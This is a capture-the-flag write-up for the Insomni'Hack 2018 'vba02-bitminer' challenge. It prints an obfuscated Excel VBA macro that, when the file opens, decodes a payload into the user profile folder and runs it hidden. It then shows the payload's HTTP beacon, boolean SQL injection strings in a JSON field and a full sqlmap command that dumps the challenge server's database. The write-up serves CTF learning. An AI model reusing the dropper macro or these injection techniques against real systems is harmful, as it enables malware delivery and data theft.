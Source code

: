 ```yaml
---
title: Insomni'Hack 2018 - vba02-bitminer
layout: writeup
authors: Crypt0-M3lon,ZeArioch
ctf_url: https://insomnihack.ch/
---
```

Solves: 21 / Points: 142
## Challenge description
> Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:
> `vba02-bitminer_4052500b4f2120d3d3ae458b339ec1f16e89e870.xls`

## Challenge resolution
This begins again with a .xls file. We follow the same steps as the first `vba` challenge to get the macro:
```vb
Attribute VB_Name = "Module1"
Sub Auto_Open()
    Predict ("Sheet1")
End Sub
Sub Workbook_Open()
    Predict ("Sheet1")
End Sub

Private Function Predict(ByVal z As String) As String

    Dim zzzz As String
    zzzz = "bitcoin.txt"
    Dim zzzzz As String
    zzzzz = Environ("USERPROFILE")
    ChDrive (zzzzz)
    Dim zzzzzz As Integer
    ChDir (zzzzz)
    zzzzzz = FreeFile()
    Dim zzzzzzz As Integer
    Dim zz As Integer
    zz = 4
    Open zzzz For Binary As zzzzzz
    Dim zzz As Worksheet
    On Error GoTo e
    Set zzz = Worksheets(z)
    zzzzzzz = 1
    Do While zzz.Columns(zzzzzzz).Cells(zz, (3 / 2)).Value <> ""
        Do While zzz.Columns(zzzzzzz).Cells(zz, (109 / 87)).Value <> ""
            Put #zzzzzz, , CByte(zzz.Columns(zzzzzzz).Cells(zz, (5471 / 4871)).Value Xor (42 * 2 + 1))
            zzzzzzz = zzzzzzz + (781625 / 679142)
        Loop
        zz = zz + Sqr(2)
        zzzzzzz = 1
    Loop
    Close #zzzzzz
    zzzzzzzz = Shell(zzzz, vbHide)
    Exit Function
e:
    MsgBox "Unable to predict the future"
    Exit Function
End Function
```

We skip the obfuscated components to focus on the important behavior: it creates a file into the `%userprofile%` folder and runs it. We defang the macro by removing the 'Shell' line, open the Excel file and retrieve the 'bitcoin.txt' file it created. Running it in a controlled environment, we see it uses WMI to gather information about the system on which it runs and generates HTTP requests that can be translated into the following `curl` command:
```shell
curl -i -X 'POST' \
    -H 'User-Agent: Bitcoin Mining $couter 0.1 Beta 1337' -H 'Expect: 100-continue' \
    --data '<Base64-encoded string>' \
    'http://bitminer.insomni.hack/?a=benchmark'
```

The decoded Base64 is a JSON object with the following format:
```json
{
    "cid":"NOT-A-SANDBOX",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the JSON contents, we identify that the server generates an error when a single quote is present in the gpu field. The vulnerability seems to be an SQL injection which can be easily checked by sending the following `gpu` value:
* `' or 1=1 --` always true, returns `go`
* `' or 1=0 --` always false, returns `pwaaa`

Since we are lazy hackers, we use sqlmap to extract the database contents. To do so, we use the `-r` option to define a file containing all of the request information (`*` is used to mark the injection point):
```http
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
```shell
$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"NOT-A-SANDBOX","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump
```

Finaly, we retrieve the flag from the flag table: `INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}`